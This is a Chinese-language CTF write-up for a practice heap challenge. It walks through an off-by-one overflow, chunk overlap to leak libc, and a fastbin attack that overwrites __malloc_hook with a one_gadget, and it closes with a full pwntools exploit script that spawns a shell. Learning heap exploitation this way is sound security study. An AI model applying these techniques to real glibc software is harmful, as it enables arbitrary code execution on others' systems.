 # 标题

> practice-offbyone

## **原理**
offbyone+fastbin attack

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb

## **步骤**

看一下代码：

![](./pic/1.png)

看到edit中有一个 strlen函数到 `\0` 结束，但是read函数 不会在字符串的结尾加上 `\0`。我们可以进行 offbyone。

- 首先，我们先malloc5个堆块，然后释放掉 堆块1。

```
add(0x28,'a'*0x28)#0
add(0xf8,'a'*0xf8)#1
add(0x68,'a'*0x68)#2
add(0x60,'a'*0x60)#3
add(0x60,'a'*0x60)#4

delete(1)
```

堆块1会被放入到 unsortedbin中，在这道题中 我们无法打印被delete掉堆块的内容。所以我们接下来进行offbyone的利用。

注：为什么把堆块malloc一个这样的大小，是因为这样生成的堆块会复用prev_size。这样我们利用offbyone的时候，才能修改到size部分。下图就是malloc之后的情况。

![](./pic/3.png)

- 接下来利用offbyone的思路是这样的，如下图所示：

![](./pic/4.png)

通过修改 被free掉的堆块的size部分，使之变大。面积可以覆盖到下一个没有被free掉的堆块

```
edit(0,'a'*0x28+'\x71') #将这个块的size 改成0x171
edit(2,'a'*0x60+p64(0x170)+'\x70') 

add(0xf8,'a'*0xf8)

show(2)
main_arena=u64(p.recvline(keepends=False).ljust(8,'\0'))-0x58
print hex(main_arena)
```
我们free掉 堆块1之后，改变了堆块1的大小，这样我们再malloc一个和先前堆块1一样的大小的堆块时，就会在unsorted bin中选一个堆块，切掉需要的大小，再将余下的部分放回 unsortedbin中。看下图：

![](./pic/5.png)

由上图可见，我们并没有将堆块2 free掉，但是经过刚才的处理，他出现在了unsorted bin中。这样我们再show(2)，就能得到 main_arena+88的地址，进而得到libc的地址。

- 接下来我们要进行fastbin attack 

```
add(0x60,'a'*0x60)# 5 == 2

delete(3)
delete(2)
edit(5,p64(malloc_hook-0x10-3)[0:6])

add(0x60,+'a'*0x60)#2
add(0x60,'a'*3+p64(one_gadget)+'\n')
delete(2)
delete(5)
```

这里有一个问题就是为什么，要delete两次来触发 one_gadget。是因为所有的one_gadget都不能用，所以我们是通过malloc_printerr的方式触发，这样成功的可能性更大。

完整的exp：

```
from pwn import *

def add(size,note):
	p.sendlineafter(">> ","1")
	p.sendlineafter("length: ",str(size))
	p.sendafter("note:",note)

def edit(index,note):
	p.sendlineafter(">> ","2")
	p.sendlineafter("index: ",str(index))
	p.sendafter("note:",note)

def delete(index):
	p.sendlineafter(">> ","3")
	p.sendlineafter("index: ",str(index))

def show(index):
	p.sendlineafter(">> ","4")
	p.sendlineafter("index: ",str(index))




libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
p=process('./offbyone')

add(0x28,'a'*0x28)#0
add(0xf8,'a'*0xf8)#1
add(0x68,'a'*0x68)#2
add(0x60,'a'*0x60)#3
add(0x60,'a'*0x60)#4

#gdb.attach(p)
#raw_input()
delete(1)
edit(0,'a'*0x28+'\x71') #
edit(2,'a'*0x60+p64(0x170)+'\x70')#标志 堆块2 是一个空闲的值

add(0xf8,'a'*0xf8)

show(2)
main_arena=u64(p.recvline(keepends=False).ljust(8,'\0'))-0x58
print hex(main_arena)

libc_base=main_arena-libc.symbols['__malloc_hook']-0x10
print hex(libc_base)

system=libc_base+libc.symbols['system']
print "system",hex(system)


malloc_hook=libc_base+libc.symbols['__malloc_hook']


one_gadget=libc_base+0xf02a4

add(0x60,'a'*0x60)#5 == 2

# fastbin attack
delete(3)
delete(2)
edit(5,p64(malloc_hook-0x10-3)[0:6])

add(0x60,'/bin/sh\x00'+'a'*0x58)#2
add(0x60,'a'*3+p64(one_gadget)+'\n')
delete(2)
delete(5)

p.interactive()

```
## **参考阅读**

